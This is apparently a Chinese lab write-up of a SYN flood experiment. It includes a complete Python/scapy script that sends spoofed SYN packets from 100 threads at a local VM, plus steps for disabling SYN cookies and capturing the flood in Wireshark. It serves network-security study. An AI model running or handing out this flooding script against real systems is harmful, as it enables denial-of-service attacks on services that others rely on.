

## 实验环境

- 操作系统：Windows 11 23H2

- 抓包工具：WireShark

- 虚拟化软件：VMware Workstation 16

- 虚拟机操作系统：Ubuntu 18.04.1

## 实验过程

### 攻击代码

使用 Python 编写的实现 SYN Flood 攻击的代码：

```python
from scapy.all import *
from random import randint
import threading


def randomIP():
    ip = ".".join(map(str, (randint(0, 255) for _ in range(4))))
    return ip


def randInt():
    x = randint(1000, 9000)
    return x


def SYN_Flood(dstIP, dstPort, counter):
    total = 0
    print("正在发送数据包……")
    for x in range(0, counter):
        s_port = randInt()
        s_eq = randInt()
        window = randInt()

        IP_Packet = IP()
        IP_Packet.src = randomIP()
        IP_Packet.dst = dstIP

        TCP_Packet = TCP()
        TCP_Packet.sport = s_port
        TCP_Packet.dport = dstPort
        TCP_Packet.flags = "S"
        TCP_Packet.seq = s_eq
        TCP_Packet.window = window

        send(IP_Packet / TCP_Packet, verbose=0)
        total += 1
        print("\n该线程发送的数据包个数：%i\n" % total)


def main():
    dstIP, dstPort = '192.168.10.131', 8000

    num_threads = 100
    counter_per_thread = 100000
    threads = []

    for _ in range(num_threads):
        t = threading.Thread(target=SYN_Flood, args=(dstIP, dstPort, counter_per_thread))
        t.start()
        threads.append(t)

        for t in threads:
            t.join()


if __name__ == "__main__":
    main()

```

### 启动虚拟机

1.  查看子网名称和子网地址

    

2.  进入 Ubuntu 虚拟机，打开终端

3.  查看 IP 地址

    

4.  关闭 SYN Cookies 机制

    

5.  开启一个简易的 Web 服务

        

6.  现在宿主主机就可以通过 IP 地址+端口号访问这个 Web 服务了。

    

### 抓包

1.  打开 Wireshark，选择网卡，开始抓包

    

2.  编辑攻击脚本，将目标 IP 地址和端口号改为宿主主机的 IP 地址和 Web 服务的端口号

    

3.  运行攻击脚本，开始发送 SYN 包

    

4.  访问 Web 服务，查看服务器的响应情况

    

5.  停止抓包，查看攻击结果

    

可以发现，Wireshark 捕捉到大量的 SYN 数据包，服务端由于大量的 SYN 请求，无法及时响应，导致连接超时。
